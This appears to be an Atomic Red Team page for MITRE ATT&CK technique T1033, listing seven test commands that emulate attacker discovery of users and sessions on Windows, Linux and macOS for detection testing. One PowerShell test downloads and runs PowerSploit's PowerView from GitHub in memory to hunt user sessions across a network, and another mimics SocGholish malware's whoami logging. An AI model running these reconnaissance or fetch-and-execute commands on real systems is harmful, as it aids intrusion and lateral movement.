 # T1033 - System Owner/User Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1033)
<blockquote>Adversaries may attempt to identify the primary user, currently logged in user, set of users that commonly uses a system, or whether a user is actively using the system. They may do this, for example, by retrieving account usernames or by using [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). The information may be collected in a number of different ways using other Discovery techniques, because user and username details are prevalent throughout a system and include running process ownership, file/directory ownership, session information, and system logs. Adversaries may use the information from [System Owner/User Discovery](https://attack.mitre.org/techniques/T1033) during automated discovery to shape follow-on behaviors, including whether or not the adversary fully infects the target and/or attempts specific actions.

Various utilities and commands may acquire this information, including <code>whoami</code>. In macOS and Linux, the currently logged in user can be identified with <code>w</code> and <code>who</code>. On macOS the <code>dscl . list /Users | grep -v '_'</code> command can also be used to enumerate user accounts. Environment variables, such as <code>%USERNAME%</code> and <code>$USER</code>, may also be used to access this information.

On network devices, [Network Device CLI](https://attack.mitre.org/techniques/T1059/008) commands such as `show users` and `show ssh` can be used to display users currently logged into the device.(Citation: show_ssh_users_cmd_cisco)(Citation: US-CERT TA18-106A Network Infrastructure Devices 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - System Owner/User Discovery](#atomic-test-1---system-owneruser-discovery)

- [Atomic Test #2 - System Owner/User Discovery](#atomic-test-2---system-owneruser-discovery)

- [Atomic Test #3 - User Activity Discovery - Shell Commands](#atomic-test-3---user-activity-discovery---shell-commands)

- [Atomic Test #4 - Find computers where user has session - Stealth mode (PowerView)](#atomic-test-4---find-computers-where-user-has-session---stealth-mode-powerview)

- [Atomic Test #5 - User Discovery With Env Vars PowerShell Script](#atomic-test-5---user-discovery-with-env-vars-powershell-script)

- [Atomic Test #6 - GetCurrent User with PowerShell Script](#atomic-test-6---getcurrent-user-with-powershell-script)

- [Atomic Test #7 - System Discovery - SocGholish whoami](#atomic-test-7---system-discovery---socgholish-whoami)


<br/>

## Atomic Test #1 - System Owner/User Discovery
Identify System owner or users on an endpoint.
Upon successful execution, cmd.exe will spawn multiple commands against a target host to identify usernames. Output will be via stdout. 
Additionally, two files will be written to disk - computers.txt and usernames.txt.

**Supported Platforms:** Windows


**auto_generated_guid:** 4c4959bf-addf-4b4a-be86-8d09cc1857aa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Name of remote computer | string | localhost|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmd.exe /C whoami
wmic useraccount get /ALL
quser /SERVER:"#{computer_name}"
quser
qwinsta.exe /server:#{computer_name}
qwinsta.exe
for /F "tokens=1,2" %i in ('qwinsta /server:#{computer_name} ^| findstr "Active Disc"') do @echo %i | find /v "#" | find /v "console" || echo %j > computers.txt
@FOR /F %n in (computers.txt) DO @FOR /F "tokens=1,2" %i in ('qwinsta /server:%n ^| findstr "Active Disc"') do @echo %i | find /v "#" | find /v "console" || echo %j > usernames.txt
```






<br/>
<br/>

## Atomic Test #2 - System Owner/User Discovery
Identify System owner or users on an endpoint
Upon successful execution, sh will stdout list of usernames.

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 2a9b677d-a230-44f4-ad86-782df1ef108c






#### Attack Commands: Run with `sh`! 


```sh
users
w
who
```






<br/>
<br/>

## Atomic Test #3 - User Activity Discovery - Shell Commands
Detects user activity discovery commands executed in a child shell

**Supported Platforms:** Linux


**auto_generated_guid:** 54366f3c-7c64-4bfc-932e-40c5db56749f






#### Attack Commands: Run with `sh`! 


```sh
sh -c users
```






<br/>
<br/>

## Atomic Test #4 - Find computers where user has session - Stealth mode (PowerView)
Find existing user session on other computers. Upon execution, information about any sessions discovered will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 29857f27-a36f-4f7e-8084-4557cd6207ca






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Invoke-UserHunter -Stealth -Verbose
```






<br/>
<br/>

## Atomic Test #5 - User Discovery With Env Vars PowerShell Script
Use the PowerShell environment variables to identify the current logged user.

**Supported Platforms:** Windows


**auto_generated_guid:** dcb6cdee-1fb0-4087-8bf8-88cfd136ba51






#### Attack Commands: Run with `powershell`! 


```powershell
[System.Environment]::UserName | Out-File -FilePath .\CurrentactiveUser.txt 
$env:UserName | Out-File -FilePath .\CurrentactiveUser.txt -Append
```

#### Cleanup Commands:
```powershell
Remove-Item -Path .\CurrentactiveUser.txt -Force
```





<br/>
<br/>

## Atomic Test #6 - GetCurrent User with PowerShell Script
Use the PowerShell "GetCurrent" method of the WindowsIdentity .NET class to identify the logged user.

**Supported Platforms:** Windows


**auto_generated_guid:** 1392bd0f-5d5a-429e-81d9-eb9d4d4d5b3b






#### Attack Commands: Run with `powershell`! 


```powershell
[System.Security.Principal.WindowsIdentity]::GetCurrent() | Out-File -FilePath .\CurrentUserObject.txt
```

#### Cleanup Commands:
```powershell
Remove-Item -Path .\CurrentUserObject.txt -Force
```





<br/>
<br/>

## Atomic Test #7 - System Discovery - SocGholish whoami
SocGholish performs whoami discovery commands and outputs the results to a tmp file. 
The test will generate a filename similar to the random one generated during execution and write the file to AppData\Temp.
Reference: https://redcanary.com/threat-detection-report/threats/socgholish/

**Supported Platforms:** Windows


**auto_generated_guid:** 3d257a03-eb80-41c5-b744-bb37ac7f65c7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_path | Location of output file | string | $env:temp|


#### Attack Commands: Run with `powershell`! 


```powershell
$TokenSet = @{
  U = [Char[]]'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
  N = [Char[]]'0123456789'
}
$Upper = Get-Random -Count 5 -InputObject $TokenSet.U
$Number = Get-Random -Count 5 -InputObject $TokenSet.N
$StringSet = $Upper + $Number
$rad = (Get-Random -Count 5 -InputObject $StringSet) -join ''
$file = "rad" + $rad + ".tmp"
whoami.exe /all >>  #{output_path}\$file
```

#### Cleanup Commands:
```powershell
Remove-Item -Path  #{output_path}\rad*.tmp -Force
```





<br/>
